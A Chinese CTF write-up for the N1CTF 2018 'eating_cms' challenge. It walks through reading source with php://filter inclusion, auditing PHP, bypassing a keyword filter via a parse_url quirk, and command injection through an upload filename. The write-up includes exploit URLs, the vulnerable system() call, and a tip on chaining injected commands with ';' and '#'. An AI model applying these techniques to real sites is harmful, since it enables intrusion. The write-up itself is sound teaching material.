


# \[N1CTF 2018]eating\_cms

## \[N1CTF 2018]eating\_cms

## 考点

* 文件包含配合伪协议读取文件
* PHP代码审计
* parse\_url解析漏洞
* 文件名处命令注入

## wp

F12看到注释的SIGN UP，network里面看到登录访问的login.php，返回头看到PHP5.5.9，robots.txt文件不存在

访问register.php，随便注册，然后再登录。可以看到请求

```
user.php?page=guest
user.php?page=info
```

用PHP伪协议进行文件包含`user.php?page=php://filter/read=convert.base64-encode/resource=user` ，主要文件有user.php，function.php，config.php，info.php，index.php，login.php，register.php

按照功能点看代码，先看注册，全局变量`$mysqli` 是`new mysqli` 生成的对象，Filter函数对传入的内容进行黑白名单检测，并且对字符串中的反斜杠和单双引号进行转义。注册是SQL是`insert into` albert\_users`(`username\_which\_you\_do\_not\_know`,`password\_which\_you\_do\_not\_know\_too`,`isadmin\_which\_you\_do\_not\_know\_too\_too`) VALUES ('$user','$pass','0')`

```php
function register($user, $pass)
{
    global $mysqli;
    $user = Filter($user);
    $pass = md5($pass);
    $sql = "insert into `albert_users`(`username_which_you_do_not_know`,`password_which_you_do_not_know_too`,`isadmin_which_you_do_not_know_too_too`) VALUES ('$user','$pass','0')";
    $res = sql_query($sql);
    return $mysqli->insert_id;
}
 $blacklist = "information|benchmark|order|limit|join|file|into|execute|column|extractvalue|floor|update|insert|delete|username|password";
 $whitelist = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'(),_*`-@=+><";
```

然后看登录，查询然后赋值给session，和注册差不多。登录的SQL是`select * from` albert\_users`where`username\_which\_you\_do\_not\_know`= '$user' and` password\_which\_you\_do\_not\_know\_too `= '$pass'`

然后看一下user.php?page=guest是什么，首先对用户进行判断

```php
if($_SESSION['isadmin'] === '1'){
    $oper_you_can_do = $OPERATE_admin;}else{  // array('userinfo','upload','search','manage');
    $oper_you_can_do = $OPERATE;}        // array('userinfo','upload','search');
```

然后info.php只有admin可以访问，不是admin只能访问guest.php。然后在filter\_directory()中对请求的URI进行限制，但是用了两个危险函数，parse\_url和parse\_str，前面一个有解析漏洞，后面一个有变量覆盖漏洞

```php
function filter_directory()
{
    $keywords = ["flag","manage","ffffllllaaaaggg"];
    $uri = parse_url($_SERVER["REQUEST_URI"]);  // parse_url(user.php?page=guest)   array(2) { ["path"]=> string(9) "/user.php" ["query"]=> string(10) "page=guest" } 
    parse_str($uri['query'], $query);
//    var_dump($query);
//    die();
    foreach($keywords as $token)
    {
        foreach($query as $k => $v)
        {
            if (stristr($k, $token))
                hacker();
            if (stristr($v, $token))
                hacker();
        }
    }
}
```

那就访问它限制的文件源码，先用user.php?page=php://filter/read=convert.base64-encode/resource=flag试试，提示错误

利用parse\_url的解析漏洞，访问`//user.php?page=php://filter/read=convert.base64-encode/resource=ffffllllaaaaggg` （前面两个文件不存在）

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}else {
    echo "you can find sth in m4aaannngggeee";
}
?>
```

再去看m4aaannngggeee

```php
<?php
if (FLAG_SIG != 1){
    die("you can not visit it directly");
}
include "templates/upload.html";
?>
```

再访问templates/upload.html，去看upllloadddd.php



```php
<?php
$allowtype = array("gif","png","jpg");
$size = 10000000;
$path = "./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/";
$filename = $_FILES['file']['name'];
if(is_uploaded_file($_FILES['file']['tmp_name'])){
    if(!move_uploaded_file($_FILES['file']['tmp_name'],$path.$filename)){
        die("error:can not move");
    }
}else{
    die("error:not an upload file！");
}
$newfile = $path.$filename;
echo "file upload success<br />";
echo $filename;
$picdata = system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");
echo "</img>";
if($_FILES['file']['error']>0){
    unlink($newfile);
    die("Upload file error: ");
}
$ext = array_pop(explode(".",$_FILES['file']['name']));
if(!in_array($ext,$allowtype)){
    unlink($newfile);
}
?>
```

这个命令执行就很明显了


在templates/upload.html进行上传，然后抓包，请求地址改成/upllloadddd.php


然后在文件名注入payload


最后结果



## 小结

1. 文件名处可以注入命令时，使用`;` 分割命令，使用`#` 注释
